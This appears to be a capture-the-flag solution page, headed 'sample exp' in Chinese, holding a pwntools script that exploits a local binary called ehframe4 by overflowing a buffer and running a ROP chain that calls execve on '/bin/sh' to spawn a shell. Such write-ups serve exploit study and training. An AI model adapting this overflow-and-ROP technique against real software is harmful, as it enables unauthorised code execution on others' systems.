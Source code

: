 #### 示例exp

```plain
from pwn import *

# context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

io = process('./ehframe4')
def p():
    gdb.attach(proc.pidof(io)[0],'b read')

p()
name_addr = 0x4D93D0
test_addr = 0x401a9d

io.recvuntil("name?")
payload = p64(name_addr) + p64(test_addr)
io.send(payload)

io.recvuntil("called") 
payload = b'a'*0x30
payload += p64(name_addr)
io.send(payload)

pop_rdi = 0x000000000040286c #: pop rdi ; ret
pop_rdx_rbx = 0x000000000049769b #: pop rdx ; pop rbx ; ret 
pop_rsi = 0x0000000000403f59 #: pop rsi ; ret
pop_rax = 0x0000000000462e77 #: pop rax ; ret
syscall = 0x0000000000401bcd #: syscall
binsh = 0x4d93a0
main = 0x401B8C
io.recvuntil("called") 

payload = b'/bin/sh\x00'
payload += p64(0)*6
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(syscall)

io.send(payload)
io.interactive()
```
